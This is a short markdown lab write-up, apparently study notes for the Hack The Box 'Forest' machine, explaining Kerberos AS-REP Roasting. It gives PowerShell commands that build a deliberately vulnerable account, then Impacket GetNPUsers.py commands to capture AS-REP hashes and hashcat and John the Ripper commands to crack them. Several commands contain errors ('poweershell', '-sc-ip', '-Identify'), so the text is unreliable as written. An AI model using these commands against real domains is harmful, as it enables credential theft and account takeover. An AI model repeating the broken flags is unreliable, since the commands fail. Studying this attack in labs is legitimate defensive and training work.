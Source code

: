 [Forest HTB](https://www.hackthebox.com/machines/forest)

**Target Enviornment** : Active Directory
**Purpose** : Extract TGTs from user accounts that do **not require Kerberos pre-authentication**, allowing offline password cracking

---

### What is AS-REP Roasting?

AS-REP Roasting is a kerberos attack targetting domain user accounts with the **Do not require Kerberos pre-authentication** flag enabled.

#### How it works

Normally, Kerberos authentication requires users to prove their identity via pre-authentication.
However, if pre-auth is disabled:

1. An attacker can send authentication request to the KDC **without knowing the password**.
2. The KDC responds with an **AS-REP (Authentication Server Reply)** message
3. This AS-REP contains data encrypted with the user's password hash
4. The attacker can perform **offline brute-force** or directory attacker to recover the plaintext password

---

### Lab Setup

```powershell
poweershell.exe -nop -ep bypass
```

#### Step 1. Define a password

```powershell
$PASSWORD = ConvertTo-SecureString -AsPlainText -Force -String "Password123"
```

#### Step 2. Create a user account

```powershell
New-ADUser -Name "User-asrep-roast" -SamAccountName "User-asrep-roast" -AccountPassword $PASSWORD -Enabled $true -PasswordNeverExpires $true -Description "AS-REP-Roast vulnerable account"
```

#### Step 3. Disable pre-authentication

```powershell
Set-ADAccountControl -Identify "User-asrep-roast" -DoesNotRequirePreAuth $true
```

#### Step 4. Verify users with pre-auth disabled

```powershell
Get-ADUser -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth
```

---

### Attacking (Capturing and Cracking the AS-REP Hash)

#### I. Using Impacket (Linux/Python)

```cmd
GetNPUsers.py -sc-ip <IP> armour.local/ -usersfile users.txt -no-pass
```

#### Cracking the Hash

**With hashcat**

```bash
hashcat -m 18200 asrep_hash.txt rockyou.txt
```

**John the Ripper**

```bash
john --wordlist=rockyou.txt asrep_hash.txt
```

